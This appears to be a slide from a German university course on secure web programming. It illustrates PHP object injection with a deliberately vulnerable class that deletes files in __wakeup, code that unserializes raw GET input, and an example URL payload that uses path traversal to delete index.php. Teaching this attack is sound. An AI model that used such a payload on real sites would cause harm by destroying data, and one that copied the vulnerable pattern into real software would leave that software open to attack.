

Überblick
# Object Injection
class Hello {
     private $cache_file;

     function __wakeup()   {
          $file = "/var/www/cache/tmp/{$this->cache_file}";
          if (file_exists($file)) @unlink($file);
     }
}

$user_data = unserialize($_GET['data']);
1
https://site.com/vux.php?data=O:8:„Hello":1:{s:10:"cache_file";s:15:"../../index.php";}
2
Sichere Web-Programmierung
14.07.2021
16